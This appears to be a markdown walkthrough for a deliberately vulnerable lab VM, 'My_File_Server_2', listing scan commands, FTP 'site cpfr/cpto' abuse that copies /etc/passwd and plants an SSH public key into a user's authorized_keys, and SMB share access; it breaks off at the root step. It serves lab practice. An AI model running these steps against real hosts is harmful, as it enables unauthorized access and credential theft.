







# My_File_Server_2

\

## 

## My_File_Server_2

- **My_File_Server_2** :-

<!-- -->

- Go to repo :
  <https://github.com/InfoSecWarrior/Offensive-Pentesting-Lab/tree/main/Vulnerable-OVA>
- Download the machine .

<!-- -->

- Import the machine in virtual box .

<!-- -->

- Find the machine ip :

    nmap -sn 192.168.2.0/24 

- Find the available port :

    nmap -v -p- 192.168.2.240

- Visit the ip in browser : <http://192.168.2.240/>

<!-- -->

- Find the hidden endpoints :

    feroxbuster -u http://192.168.2.240/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt

- Visit the endpoints : <http://192.168.2.240/index.html>
  <http://192.168.2.240/readme.txt>

- Now try to login ftp :

    ftp 192.168.2.240

 Show the vsFTPd version .

    ftp 192.168.2.240 2121

    ftp 192.168.2.240 2121

- Now again login port 2121 and run the command :

    ftp 192.168.2.240 2121

    help

    site help

    site cpfr /etc/passwd

    site cpto /var/ftp/pub/passwd

- Now exit and again login :

- Now download the passwd file and see the content :

 Here the passwd file content .

- Now try to login smbuser in ftp :

- Anonymous check with smbclient :

    smbclient -L //192.168.2.240

    smbclient //192.168.2.240/smbdata

- Now generate rsa_key :

    ssh-keygen -b 2048 -t rsa -f id_rsa -q -N ""

- Login with smb user and put the rsa file :

    smbclient //192.168.2.240/smbdata

- Login FTP and rsa_key file transfer in smbdata :

    ftp 192.168.2.240 2121

- 

    site help

- 

    site cpfr /smbdata/id_rsa.pub

- 

    site cpto /home/smbuser/.ssh/authorized_keys

- Now login with ssh :

    ssh -i id_rsa smbuser@192.168.2.240

- Login with root :

